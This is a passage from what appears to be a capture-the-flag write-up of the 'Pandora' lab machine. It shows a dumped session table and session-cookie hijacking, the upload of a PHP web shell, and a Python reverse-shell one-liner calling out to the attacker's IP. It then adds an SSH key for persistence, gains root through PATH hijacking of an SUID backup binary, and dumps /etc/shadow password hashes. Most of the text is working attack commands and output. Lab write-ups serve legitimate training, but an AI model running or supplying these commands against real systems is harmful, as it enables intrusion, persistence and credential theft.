| pjp312be5p56vke9dnbqmnqeot | id_usuario|s:6:"daniel";                             | 1638168416  |
| qq8gqbdkn8fks0dv1l9qk6j3q8 | NULL                                                 | 1638787723  |
| r097jr6k9s7k166vkvaj17na1u | NULL                                                 | 1638787677  |
| rgku3s5dj4mbr85tiefv53tdoa | id_usuario|s:6:"daniel";                             | 1638889082  |
| teacqt3ot0h5d9vv4h32341vuv | NULL                                                 | 1642605681  |
| tsoqrgcsi6c5oppkv91aa505o1 | NULL                                                 | 1642607725  |
| u5ktk2bt6ghb7s51lka5qou4r4 | id_usuario|s:6:"daniel";                             | 1638547193  |
| u74bvn6gop4rl21ds325q80j0e | id_usuario|s:6:"daniel";                             | 1638793297  |
| ug9litesic4d9dlffpan4a6gav | NULL                                                 | 1642604666  |
| ute0057fn67po14qtp3fc5p8ml | NULL                                                 | 1642608307  |
+----------------------------+------------------------------------------------------+-------------+Database: pandora
Table: tsessions_php
[60 entries]
+----------------------------+------------------------------------------------------+-------------+
| id_session                 | data                                                 | last_active |
+----------------------------+------------------------------------------------------+-------------+
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                             | 1638783555  |
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                 | 1638789018  |
| 10c8r3eg1v7kq6v9k5obabv7vo | id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0; | 1642605472  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                 | 1638792211  |
| 26ed7i18dr3hj35ivbl4klc8or | id_usuario|s:6:"daniel";                             | 1642606191  |
| 2d8oattbknppj9vkebh7breqps | id_usuario|s:6:"daniel";                             | 1642607528  |
| 2e25c62vc3odbppmg6pjbf9bum | NULL                                                 | 1638786129  |
| 2jqu726ldvtdelubt9ik3aa419 | NULL                                                 | 1642606228  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                             | 1638540332  |
| 3me2jjab4atfa5f8106iklh4fc | NULL                                                 | 1638795380  |
| 4f51mju7kcuonuqor3876n8o02 | NULL                                                 | 1638786842  |
| 4finqaqa2mlge69s0gkidsdgle | NULL                                                 | 1642607293  |
| 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                             | 1638535373  |
| 59qae699l0971h13qmbpqahlls | NULL                                                 | 1638787305  |
| 5fihkihbip2jioll1a8mcsmp6j | NULL                                                 | 1638792685  |
| 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                             | 1638281946  |
| 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                             | 1641195617  |
| 6soi61k4349s723ah3gf3cifio | NULL                                                 | 1642603837  |
| 81f3uet7p3esgiq02d4cjj48rc | NULL                                                 | 1623957150  |
| 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                             | 1638446321  |
| 8upeameujo9nhki3ps0fu32cgd | NULL                                                 | 1638787267  |
| 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                             | 1638881787  |
| a3a49kc938u7od6e6mlip1ej80 | NULL                                                 | 1638795315  |
| a63kdonme5g9l0pekrck28ru00 | NULL                                                 | 1642608246  |
| agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                             | 1638881664  |
| al8nmb1ld3jcmlfb2c7ielfenf | NULL                                                 | 1642607849  |
| cojb6rgubs18ipb35b3f6hf0vp | NULL                                                 | 1638787213  |
| d0carbrks2lvmb90ergj7jv6po | NULL                                                 | 1638786277  |
| f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                             | 1641200284  |
| fikt9p6i78no7aofn74rr71m85 | NULL                                                 | 1638786504  |
| fqd96rcv4ecuqs409n5qsleufi | NULL                                                 | 1638786762  |
| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                             | 1638783230  |
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0;  | 1638796349  |
| gf40pukfdinc63nm5lkroidde6 | NULL                                                 | 1638786349  |
| heasjj8c48ikjlvsf1uhonfesv | NULL                                                 | 1638540345  |
| hk3bnnmcvmk10nbp04cqh88u74 | NULL                                                 | 1642605321  |
| hsftvg6j5m3vcmut6ln6ig8b0f | id_usuario|s:6:"daniel";                             | 1638168492  |
| i2ceuvoubsptn4vuct5f741l3k | NULL                                                 | 1642606801  |
| ib63k26ik8rbv6n222vqcosrf6 | NULL                                                 | 1642605230  |
| iqv0037e1c8ue0e8i1f00vccjk | NULL                                                 | 1642605865  |
| jecd4v8f6mlcgn4634ndfl74rd | id_usuario|s:6:"daniel";                             | 1638456173  |
| kp90bu1mlclbaenaljem590ik3 | NULL                                                 | 1638787808  |
| mdgejpa9ibn8p5117k8ec01gua | id_usuario|s:6:"daniel";                             | 1642607734  |
| n663j9kcm0tcmc2alp1j0aatt2 | NULL                                                 | 1642608292  |
| n8nd5f8lfv8fs7q4prk4d3aolo | NULL                                                 | 1642608248  |
| nducbtmn8iket4hl50vsfupv72 | NULL                                                 | 1642605511  |
| ne9rt4pkqqd0aqcrr4dacbmaq3 | NULL                                                 | 1638796348  |
| nkva093pfub1v78fcldi01mbu4 | id_usuario|s:6:"daniel";                             | 1642594956  |
| o3kuq4m5t5mqv01iur63e1di58 | id_usuario|s:6:"daniel";                             | 1638540482  |
| oi2r6rjq9v99qt8q9heu3nulon | id_usuario|s:6:"daniel";                             | 1637667827  |
| pjp312be5p56vke9dnbqmnqeot | id_usuario|s:6:"daniel";                             | 1638168416  |
| qq8gqbdkn8fks0dv1l9qk6j3q8 | NULL                                                 | 1638787723  |
| r097jr6k9s7k166vkvaj17na1u | NULL                                                 | 1638787677  |
| rgku3s5dj4mbr85tiefv53tdoa | id_usuario|s:6:"daniel";                             | 1638889082  |
| teacqt3ot0h5d9vv4h32341vuv | NULL                                                 | 1642605681  |
| tsoqrgcsi6c5oppkv91aa505o1 | NULL                                                 | 1642607725  |
| u5ktk2bt6ghb7s51lka5qou4r4 | id_usuario|s:6:"daniel";                             | 1638547193  |
| u74bvn6gop4rl21ds325q80j0e | id_usuario|s:6:"daniel";                             | 1638793297  |
| ug9litesic4d9dlffpan4a6gav | NULL                                                 | 1642604666  |
| ute0057fn67po14qtp3fc5p8ml | NULL                                                 | 1642608307  |
+----------------------------+------------------------------------------------------+-------------+
```

Getting the matt’s cookie session, we were able to login as matt.


As matt, we can’t do much, so let’s login as admin user.


Now, let’s upload a reverse shell generated by msfvenom.

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/images/exploitation]
└──╼ [★]$ echo "<?php system($_REQUEST['jpfdevs']); ?>"
```

Let’s upload our reverse shell. We’ve to change the request and change the following fields with burp.


Now, let’s access our payload.


We’ve got RCE. Let’s get a shell on host.

On our webshell, we execute.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.115",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

And on our listener, we’ve got a shell.


Let’s improve our shell. Let’s copy our id_rsa.pub local file to authorized_keys file on matt’s user ssh folder.

```bash
matt@pandora:/home/matt/.ssh$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDA1x9wN8PmTl+2MkmGsVFR2Zo5lS/DuX5pv46SUM93vDV4VX348OI0eOwF1LgrVmdqaktsbSDtGHMdyeJvQdEKg9gaO3AfnLEsloGrpjQoTNn3lN101I3jD/wN5D3vrkN9lXjAQWxOeVGoj34xwiOBxfjDdNDvjfYjDl/0SeKVProD6B5VWM5D71dfeAS/oJfMxZLcoGpYWggpCyqs0z/jDAQr2fK2OUaFI6IjHfYkqvtubE9GrumbUJn31DFoNUIJpvttQEExqF+Dnka7ruc9cFATf+IItwZ6H7fzi3rSHs2xR6fso6wGTsQQHQ9STYSuVLwRo1Gp4X7DY8paG7UI/GwpOl47d5g5lJX9+ZwzOJYgju1iX6OEglH4N4A1f04bi1TEDlJJAd5C13tKZEdDG79PLB7up3Bj3CKB8tFVdoTT36e/aNvNtPVKZrZFTWSqMr37eBQj2fvOr5bWzugKhmbPOVs5w3f3sJOPR59C5GuiETkDag3NyrEw/sbjLB0=' >> authorized_keys
<JOPR59C5GuiETkDag3NyrEw/sbjLB0=' >> authorized_keys
```

Now we login as matt via SSH.

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/images/exploitation]
└──╼ [★]$ ssh matt@panda.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 19 Jan 20:23:16 UTC 2022

  System load:  0.04              Processes:             248
  Usage of /:   67.2% of 4.87GB   Users logged in:       2
  Memory usage: 16%               IPv4 address for eth0: 10.10.11.136
  Swap usage:   0%

  => /boot is using 91.8% of 219MB

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Jan 19 20:22:07 2022 from 10.10.14.115
```

Now, as we have seen previously, there is a binary with SUID bit set up. Let’s try to escalate our privilege to root user.

When we cat the /usr/bin/pandora_backup file, we have got.

```bash
matt@pandora:~!07P@C=jpv=D"=== @dora_backup
ELF>@0:@8                       `  @@.?P@
         @@@@hHHmm   HH-==hp-=DDPtd   <<QdFYl@@ H@ ]X@+P@u-linux-x86-64.so.2GNUqtðG7%H9
                                                          P@ 2"crtstuff.cderegister_tm_clones__do_global_dtors_auxcompleted.0__do_global_dtors_aux_fini_array_entryframe_dummy__frame_dummy_init_array_entrybackup.c__FRAME_END____init_array_end_DYNAMIC__init_array_start__GNU_EH_FRAME_HDR_GLOBAL_OFFSET_TABLE___libc_csu_fini_ITM_deregisterTMCloneTableputs@GLIBC_2.2.5_edatagetuid@GLIBC_2.2.5system@GLIBC_2.2.5geteuid@GLIBC_2.2.5__libc_start_main@GLIBC_2.2.5__data_start__gmon_start____dso_handle_IO_stdin_used__libc_csu_initsetreuid@GLIBC_2.2.5__bss_startmain__TMC_END___ITM_registerTMCloneTable__cxa_finalize@GLIBC_2.2.5.symtab.strtab.shstrtab.interp.note.gnu.build-id.note.ABI-tag.gnu.hash.dynsym.dynstr.gnu.version.gnu.version_r.rela.dyn.rela.plt.init.plt.got.text.fini.rodata.eh_frame_hdr.eh_frame.init_array.fini_array.dynamic.got.plt.data.bss.comment NoIAUIATAUH-+SL)HtLLDAHH9u[]A\A]A^A_PandoraFMS Backup UtilityNow attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/images/pandora_console/*Backup faV88^okoBdd`         <8=?@@@P@P0P0'x0`-   6M%9matt@pandora:~$ 
matt@pandora:~$ ssions!Backup successful!Terminating program!<(Xh8zRx
```

Let’s try a technique of path variable hijacking. We have to do the thing.

```bash
matt@pandora:/tmp/jpfdevs$ echo '/bin/bash' > tar
matt@pandora:/tmp/jpfdevs$ chmod 777 tar
matt@pandora:/tmp/jpfdevs$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:/tmp/jpfdevs$ export PATH=/tmp:$PATH
matt@pandora:/tmp/jpfdevs$ /usr/bin/pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:/tmp/jpfdevs# id
uid=0(root) gid=1000(matt) groups=1000(matt)
```

And we’re root! Let’s get the shadow files.

```bash
root:$6$HM2preufywiCDqbY$XPrZFWf6w08MKkjghhCPBkxUo2Ag5xvZYOh4iD4XcN4zOVbWsdvqLYbznbUlLFxtC/.Z0oe9D6dT0cR7suhfr.:18794:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
sys:*:18659:0:99999:7:::
sync:*:18659:0:99999:7:::
games:*:18659:0:99999:7:::
man:*:18659:0:99999:7:::
lp:*:18659:0:99999:7:::
mail:*:18659:0:99999:7:::
news:*:18659:0:99999:7:::
uucp:*:18659:0:99999:7:::
proxy:*:18659:0:99999:7:::
www-data:*:18659:0:99999:7:::
backup:*:18659:0:99999:7:::
list:*:18659:0:99999:7:::
irc:*:18659:0:99999:7:::
gnats:*:18659:0:99999:7:::
nobody:*:18659:0:99999:7:::
systemd-network:*:18659:0:99999:7:::
systemd-resolve:*:18659:0:99999:7:::
systemd-timesync:*:18659:0:99999:7:::
messagebus:*:18659:0:99999:7:::
syslog:*:18659:0:99999:7:::
_apt:*:18659:0:99999:7:::
tss:*:18659:0:99999:7:::
uuidd:*:18659:0:99999:7:::
tcpdump:*:18659:0:99999:7:::
landscape:*:18659:0:99999:7:::
pollinate:*:18659:0:99999:7:::
usbmux:*:18789:0:99999:7:::
sshd:*:18789:0:99999:7:::
systemd-coredump:!!:18789::::::
matt:$6$JYpB9KogYA60PG6X$dU7jHpb3MIYYg0evztbE8Xw8dx7ok5/U0PaDT63FgQTwyJFr9DbaLa0WzeZGMFd05hrNCnoP5xTUr7Mkl2gNx1:18794:0:99999:7:::
lxd:!:18789::::::
Debian-snmp:!:18789:0:99999:7:::
mysql:!:18789:0:99999:7:::
daniel:$6$f4POti4xJyVf3/yD$7/efpNYDq.baYycVczUb4b5LlEBNami3//4TbI6lPNK2MaWPrqbdvAhLdMrfHnnZATY59rLgr4DeEZ3U8S41l/:18964:0:99999:7:::
```

